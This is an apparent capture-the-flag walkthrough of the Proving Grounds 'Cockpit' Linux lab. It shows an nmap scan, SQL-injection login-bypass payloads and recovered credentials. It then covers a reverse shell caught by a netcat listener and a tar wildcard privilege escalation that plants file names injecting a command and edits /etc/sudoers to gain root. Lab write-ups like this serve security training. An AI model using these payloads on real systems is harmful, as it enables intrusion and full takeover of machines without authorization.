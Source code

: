 ```yaml
---
layout: default
title: Cockpit
parent: Proving Grounds Practice - Linux
nav_order: 14
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/cockpit]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.180.10

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)

80/tcp   open  http            Apache httpd 2.4.41 ((Ubuntu))
|_http-title: blaze
|_http-server-header: Apache/2.4.41 (Ubuntu)
9090/tcp open  ssl/zeus-admin?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=blaze/organizationName=d2737565435f491e97f49bb5b34ba02e
| Subject Alternative Name: IP Address:127.0.0.1, DNS:localhost
| Not valid before: 2023-12-04T04:00:06
|_Not valid after:  2123-11-10T04:00:06
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 400 Bad request
|     Content-Type: text/html; charset=utf8
|     Transfer-Encoding: chunked
|     X-DNS-Prefetch-Control: off
|     Referrer-Policy: no-referrer
|     X-Content-Type-Options: nosniff
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>
|     request
|     </title>
|     <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <style>
|     body {
|     margin: 0;
|     font-family: "RedHatDisplay", "Open Sans", Helvetica, Arial, sans-serif;
|     font-size: 12px;
|     line-height: 1.66666667;
|     color: #333333;
|     background-color: #f5f5f5;
|     border: 0;
|     vertical-align: middle;
|     font-weight: 300;
|     margin: 0 0 10px;
|_    @font-face {

```

# Enumeration

---

## 80 | HTTP

We get a login page

![login](../../../assets/images/ctfs/proving_grounds/cockpit/login.png)

Running Gobuster didn't provide anything useful.

Started SQLi attacks and this payload generated a "block"

```bash
' or 1=1 -- -
```

![block](../../../assets/images/ctfs/proving_grounds/cockpit/block.png)

I tried the following payloads and finally a bypass of authentication was successful

```bash
<username>' OR 1=1--
<username>'--
' union select 1, '<user-fieldname>', '<pass-fieldname>' 1--
'OR 1=1--

# This was successful
'OR '' = '	#Allows authentication without a valid username.
```

![password](../../../assets/images/ctfs/proving_grounds/cockpit/password.png)

```bash
Decoded creds

james:canttouchhhthiss@455152
cameron:thisscanttbetouchedd@455152
```

# Exploitation

---

I was able to use the _james_ user to authenticate to the Ubuntu server running on 9090

![terminal](../../../assets/images/ctfs/proving_grounds/cockpit/terminal.png)

I sent a reverse shell one-liner through the web terminal and received a reverse shell on the attack machine netcat listener

![shell](../../../assets/images/ctfs/proving_grounds/cockpit/shell.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/cockpit]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.180.10] 55852
$ id
uid=1000(james) gid=1000(james) groups=1000(james)
```

# Post-Exploitation

---

## Check Sudo Permissions for James

```bash
james@blaze:/home$ sudo -l
sudo -l
Matching Defaults entries for james on blaze:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on blaze:
    (ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *

```

We can exploit this using the Tar Wildcard Exploit

Here is an writeup showing examples:

[Tar Wildcard Exploit Explanation with Example](https://www.sevenlayers.com/index.php/353-exploiting-tar-wildcards)

```bash
james@blaze:~$ echo 'echo "james ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' > shell.sh

james@blaze:~$ chmod +x shell.sh

james@blaze:~$ echo "" > "--checkpoint-action=exec=sh shell.sh"

james@blaze:~$ echo "" > --checkpoint=1


```

Now that we have created the malicious shell script that will add our user to the Sudoers file we can execute the Sudo _tar_ command

```bash
james@blaze:~$ sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *
local.txt
shell.sh
```

Checking Sudo permissions again we can now see James can run any command

```bash
james@blaze:~$ sudo -l
sudo -l
Matching Defaults entries for james on blaze:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on blaze:
    (ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *
    (ALL) NOPASSWD: ALL

```

Now we can simply elevate our shell to root

```bash
james@blaze:~$ sudo /bin/bash
sudo /bin/bash
root@blaze:/home/james# id
id
uid=0(root) gid=0(root) groups=0(root)
root@blaze:/home/james# whoami
whoami
root

```
